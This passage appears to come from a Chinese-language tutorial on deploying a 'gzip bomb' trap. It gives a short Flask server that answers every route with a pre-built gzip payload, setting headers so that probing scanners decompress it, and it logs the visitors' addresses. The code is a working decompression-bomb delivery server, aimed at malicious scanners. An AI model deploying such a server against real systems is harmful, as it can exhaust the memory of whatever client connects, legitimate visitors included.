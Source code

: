 我们部署一个简易的 Flask 服务器，并让其将我们在上文制造的 `test.gzip` 作为压缩后的响应：

```python title="app.py" linenums="1" hl_lines="7 8 10 16 17 22"
from flask import Flask, Response, request
import logging

app = Flask(__name__)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def send_gzip_bomb(path):
    remote_addr = request.headers.get('X-Forwarded-For', request.remote_addr)
    app.logger.info(f'client [{remote_addr}] {request.method} [{request.host}] as {request.url}')
    app.logger.info(f'User-Agent: {request.headers.get("User-Agent")}')

    with open(r'static/test.gzip', 'rb') as payload_gzip:
        resp = payload_gzip.read()
    final_response = Response(response=resp, status=200, mimetype='text/html')
    final_response.headers['Content-Encoding'] = 'gzip'
    return final_response


if __name__ == '__main__':
    logging.basicConfig(filename='flask.log', level=logging.INFO)
    app.run(host='127.0.0.1', port=8082)
```

这个简易的 Flask 服务器的代码中有以下要点：

 - 第7行 - `#!python @app.route('/', defaults={'path': ''})`：当匹配到 `'/'` 的路由时（比如直接访问 `http://` + `你的公网 IP 地址`），将 `send_gzip_bomb` 函数的 `path` 参数设置成 `''`
 - 第8行 - `#!python @app.route('/<path:path>'))`：当匹配到任何带 path 的路由时，将 `send_gzip_bomb` 函数的 `path` 参数设置成 URL 中的 path 值

如此一来，这个 `send_gzip_bomb` 函数便能捕获所有的路由（即使函数中从未使用 `path` 参数）。

 - 第10行 - `#!python 'X-Forwarded-For'`：取出请求头中的 `X-Forwarded-For` 的值，从而知道是谁访问了我们的服务器。如果直接使用 `#!python request.remote_addr`，那么查看到的地址永远都是 `127.0.0.1`，因为这个请求是从本地的 nginx 发来的

!!! 提示 hint

    使用 `X-Real-IP` 替代 `X-Forwarded-For` 同样也可以，前提是这两个值在 nginx 反代时已经被定义。<br>见 [部署于 nginx](#nginx)

 - 第16行 - `#!python mimetype='text/html'`：在响应头中指定响应类型为文本，这样被害的扫描器服务器便会无条件解压我们发来的载荷
 - 第17行 - `#!python final_response.headers['Content-Encoding'] = 'gzip'`：同上，告知被害的扫描器服务器使用 `gzip` 解压载荷
 - 第22行 - `#!python filename='flask.log'`：将 Flask 的日志输出重定向到文件，方便我们记录是谁恶意访问了我们的服务器

现在，运行这个 Flask 服务器，并访问 http://127.0.0.1:8082。
